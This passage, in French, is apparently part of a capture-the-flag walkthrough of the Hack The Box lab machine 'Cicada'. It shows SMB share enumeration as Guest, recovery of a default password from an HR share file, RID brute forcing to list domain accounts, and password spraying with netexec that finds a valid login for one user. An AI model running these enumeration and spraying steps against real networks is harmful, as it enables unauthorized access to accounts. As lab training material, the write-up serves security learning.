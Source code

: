 ![SMB shares list](/images/HTB-Cicada/smbclient_cmd.png)

Nous remarquons différents partages tels que `HR` et `DEV`. Nous pouvons essayer de nous connecter avec un compte `Guest` afin de trouver plus d'informations.

```
netexec smb cicada.htb -u Guest -p "" --shares
```

![SMB guest login](/images/HTB-Cicada/shares_list.png)

Nous pouvons lire les partages: `HR` et `IPC$` ( partage par défaut).

```
smbclient //cicada.htb/HR
```

![HR share content](/images/HTB-Cicada/HR_share.png)

Nous trouvons un fichier appelé `Notice from HR.txt` et le téléchargeons. Il contient un mot de passe : `Cicada$M6Corpb*@Lp#nZp!8`.

![Password found in HR share](/images/HTB-Cicada/notice_from_HR.png)

Nous avons maintenant besoin d'un nom d'utilisateur, nous pouvons trouver les noms d'utilisateurs du domaine via le RID brute forcing.

```
netexec smb cicada.htb -u guest -p '' --rid-brute
```

Après leur extraction, nous obtenons la liste suivante.

![SMB accounts](/images/HTB-Cicada/accounts.png)

```
Administrator
Guest
krbtgt
CICADA-DC$
john.smoulder
sarah.dantelia
michael.wrightson
david.orelious
emily.oscars
```

![SMB usernames list](/images/HTB-Cicada/usernames.png)

Nous comparons le mot de passe à notre liste de noms d'utilisateurs, et nous trouvons une correspondance pour `michael.wrightson:Cicada$M6Corpb*@Lp#nZp!8`.

```
netexec smb cicada.htb -u users.txt -p 'Cicada$M6Corpb*@Lp#nZp!8' --continue-on-success
```

![SMB credentials match](/images/HTB-Cicada/creds_match.png)
